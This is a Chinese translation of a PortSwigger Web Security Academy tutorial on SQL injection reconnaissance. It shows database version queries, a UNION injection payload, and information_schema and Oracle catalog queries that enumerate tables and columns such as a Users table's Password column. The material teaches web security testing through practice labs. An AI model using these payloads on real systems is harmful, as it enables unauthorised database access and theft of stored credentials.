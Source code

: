 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/sql-injection/examining-the-database'
---
```


# 在SQL注入攻击中检索数据库

当利用 [SQL 注入](https://portswigger.net/web-security/sql-injection)漏洞时，收集数据库本身的信息通常是必要的。这包括数据库软件的类型和版本，还包括数据库中包含的表和列等内容。

## 查询数据库类型和版本

不同的数据库提供不同的版本查询方式。你通常需要尝试不同的查询方式，以找到一个有效的查询方式，能够确定数据库软件的类型和版本。

用于确定某些常用数据库类型的数据库版本的查询如下：

| 数据库类型 | 查询 |
| :--- | :--- |
| Microsoft, MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` |
| PostgreSQL | `SELECT version()` |

例如，你可以使用带有下边的 `UNION` 攻击：

```sql
' UNION SELECT @@version--
```

这可能会返回类似下面的输出，确认数据库是 Microsoft SQL Server，以及正在使用的版本。

```text
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在 Oracle 中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
{% endhint %}

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在 MySQL 和微软中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
{% endhint %}

## 列出数据库的内容

大多数数据库类型（Oracle 是个明显的例外）都有一组被称作 information schema 的视图，这些视图提供有关数据库的信息。

你可以通过查询 `information_schema.tables` 来列出数据库的表：

```sql
SELECT * FROM information_schema.tables
```

返回输出如下：

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME    TABLE_TYPE
=====================================================
MyDatabase    dbo          Products BASE TABLE
MyDatabase    dbo          Users BASE    TABLE
MyDatabase    dbo          Feedback BASE TABLE
```

这些输出表明库中有三个表，分别是 `Products`, `Users`, `Feedback`。

你可以通过查询 `information_schema.columns` 列出特定表中的列：

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

返回输出如下：

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

此输出显示了指定表中的列以及每列的数据类型。

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在非 Oracle 数据库中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
{% endhint %}

## 等效于Oracle中的information schema

在 Oracle 中，你可以通过稍有差异的查询获取同样的信息。

你可以通过查询 `all_tables` 列出表：

```sql
SELECT * FROM all_tables
```

还可以通过查询 `all_tab_columns` 列出列：

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

{% hint style="warning" %}
实验：[SQL 注入攻击，在 Oracle 中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
{% endhint %}

